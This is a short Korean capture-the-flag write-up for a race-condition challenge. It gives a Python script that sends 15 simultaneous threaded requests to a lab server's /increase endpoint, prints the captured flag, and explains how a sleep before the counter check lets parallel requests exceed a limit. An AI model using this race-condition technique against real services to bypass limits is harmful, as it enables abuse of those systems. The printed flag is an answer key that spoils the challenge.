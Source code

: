 # 라업
``` python
import threading
import requests


def refund():
    url = f"http://ssh.knock-on.org:10015/increase"
    res = requests.get(url=url)
    if "Success!!" in res.text:
        print(res.text)


for i in range(15):
    t = threading.Thread(target=refund)
    t.start()

```

# 플래그
K0{Cl1ck_m00oor3_F4st3r_t0_3XPL01T!!!}

# 설명
Race Condition을 이용한 무결성 이슈를 이용한 문제

코드를 보면 `app.run(host="0.0.0.0", port=8000, threaded=True)` 이런 표현이 있는데, 서버가 멀티스레딩을 지원한다는 의미
멀티 스레딩이 가능하므로 하나의 요청을 처리하는 중에 다른 요청이 오면 리소스를 lock하지 않고 수정 사항을 그대로 반영함
`if counter < 15:` 으로 counter가 15 임을 체크해 보이지만 `/increase` 엔드 포인트에서 0.1초 sleep이 있으므로
동시에 요청이 오고 처리(sleep) 중에는 아직 counter가 오르지 않은 상태이므로 논리적으로 모순되는 상황이 발생할 수 있음
